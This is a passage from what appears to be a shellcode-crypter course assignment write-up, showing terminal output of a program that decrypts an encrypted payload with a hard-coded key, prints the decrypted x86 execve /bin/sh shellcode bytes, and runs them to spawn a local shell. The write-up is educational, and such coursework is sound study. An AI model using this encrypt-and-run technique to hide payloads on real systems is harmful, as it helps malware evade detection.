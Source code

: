# [+] Input shellcode: /tmp/encrypted.bin
# [+] Using encryption key: 0123456789abcdef
# [+] Output file: /tmp/decrypted.bin
# [+] Decrypted bytes: @[49, 192, 80, 104, 110, 47, 115, 104, 104, 47, 47, 98, 105, 176, 11, 137, 227, 49, 201, 49, 210, 205, 128]
# [+] Writing decrypted shellcode to file: /tmp/decrypted.bin
# [+] Running shellcode
$ whoami
# rbct
$ id
# uid=1000(rbct) gid=1000(rbct) groups=1000(rbct),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),113(bluetooth),118(scanner)
$ exit
rbct@debian11:~/slae32/assignment/7$
</code></pre><p>As you can see, the program managed to decrypt the shellcode and run it, spawning a simple <code>/bin/sh</code> shell.</p>